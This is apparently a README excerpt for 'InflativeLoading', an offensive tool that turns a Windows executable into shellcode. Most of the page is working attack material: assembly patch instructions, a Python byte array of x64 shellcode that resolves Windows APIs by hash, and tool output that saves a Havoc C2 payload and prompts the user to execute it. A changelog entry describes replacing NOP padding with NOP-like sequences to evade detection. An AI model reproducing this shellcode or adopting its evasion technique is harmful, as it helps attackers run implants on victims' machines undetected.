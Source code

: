 ```powershell
    mov dword ptr [rbx+0xd0], 0xbc488d5f;
    mov dword ptr [rbx+0x110], 0xbc488d5f;
    mov dword ptr [rbx+0x114], 0x87287f91;
    mov dword ptr [rbx+0x130], 0xbc488d5f;
    mov dword ptr [rbx+0x134], 0xd44cc6bb;
    mov dword ptr [rbx+0x170], 0xbc488d5f;
    mov dword ptr [rbx+0x174], 0x8d976bd1;

[+] Shellcode Stub size: 957 bytes
[+] Generating NOP-like instructions to pad shellcode stub up to 0x1000 bytes
[!] Shellcoded PE's size: 126976 bytes


buf += b"\x48\x83\xe4\xf0\x48\x31\xd2\x65\x48\x8b\x42\x60\x48\x8b\x70\x20\x48\x83\xc6\x70"
buf += b"\xc6\x06\x0c\xc6\x46\x02\xff\x48\x8b\x76\x08\xc7\x06\x31\x00\x2e\x00\xc7\x46\x04"
buf += b"\x65\x00\x78\x00\xc7\x46\x08\x65\x00\x20\x00\xc6\x46\x0c\x00\x48\x8b\x70\x18\x48"
buf += b"\x8b\x76\x30\x4c\x8b\x0e\x4d\x8b\x09\x4d\x8b\x49\x10\xeb\x66\x41\x8b\x49\x3c\x4d"
buf += b"\x31\xff\x41\xb7\x88\x4d\x01\xcf\x49\x01\xcf\x45\x8b\x3f\x4d\x01\xcf\x41\x8b\x4f"
buf += b"\x18\x45\x8b\x77\x20\x4d\x01\xce\xe3\x3f\xff\xc9\x48\x31\xf6\x41\x8b\x34\x8e\x4c"
buf += b"\x01\xce\x48\x31\xc0\x48\x31\xd2\xfc\xac\x84\xc0\x74\x07\xc1\xca\x0d\x01\xc2\xeb"
buf += b"\xf4\x44\x39\xc2\x75\xda\x45\x8b\x57\x24\x4d\x01\xca\x41\x0f\xb7\x0c\x4a\x45\x8b"
buf += b"\x5f\x1c\x4d\x01\xcb\x41\x8b\x04\x8b\x4c\x01\xc8\xc3\x48\x31\xc0\xc3\x4c\x89\xcd"
buf += b"\x41\xb8\x8e\x4e\x0e\xec\xe8\x8c\xff\xff\xff\x49\x89\xc4\x41\xb8\xaa\xfc\x0d\x7c"
buf += b"\xe8\x7e\xff\xff\xff\x49\x89\xc5\xeb\x0a\x48\x31\xc0\x8b\x43\x3c\x48\x01\xd8\xc3"
buf += b"\x48\x31\xf6\x48\x31\xff\x48\x8d\x1d\x17\x0f\x00\x00\xe8\xe4\xff\xff\xff\x8b\xb0"
buf += b"\x90\x00\x00\x00\x48\x01\xde\x8b\xb8\x94\x00\x00\x00\x48\x01\xf7\x48\x39\xfe\x74"
buf += b"\x74\x48\x31\xd2\x8b\x56\x10\x48\x85\xd2\x74\x69\x48\x31\xc9\x8b\x4e\x0c\x48\x01"
buf += b"\xd9\x41\xff\xd4\x48\x31\xd2\x8b\x56\x10\x48\x01\xda\x48\x89\xc1\x49\x89\xd6\x4c"
buf += b"\x89\xf2\x48\x8b\x12\x48\x85\xd2\x74\x3d\x49\xb9\x00\x00\x00\x00\x00\x00\x00\x80"
buf += b"\x4c\x85\xca\x48\x89\xcd\x75\x0c\x48\x01\xda\x48\x83\xc2\x02\x41\xff\xd5\xeb\x10"
buf += b"\x49\xb9\xff\xff\xff\xff\xff\xff\xff\x7f\x4c\x21\xca\x41\xff\xd5\x48\x89\xe9\x4c"
buf += b"\x89\xf2\x48\x89\x02\x49\x83\xc6\x08\xeb\xb8\x48\x83\xc6\x14\xeb\x87\x48\x31\xf6"
buf += b"\x48\x31\xff\x4d\x31\xc0\x4d\x31\xc9\x4d\x31\xff\xe8\x45\xff\xff\xff\x8b\xb0\xb0"
......126576 more bytes......


Generated shellcode successfully saved in file havocsc.bin


[#] Shellcode located at address 0x1ae8ab70000

[!] PRESS TO EXECUTE SHELLCODED EXE...
```

### 4/11/2024 Replace padded NOP with NOP-Like instruction sequences
Before the update, `0x90/NOP` instructions are padded after the actual shellcode stub to align a memory page. Many NOPs could be a detection, therefore, InflativeLoading script dynamically selects preset NOP-Like instruction sequences. Users can also add new ones or replace existing ones to achieve better obfuscation.
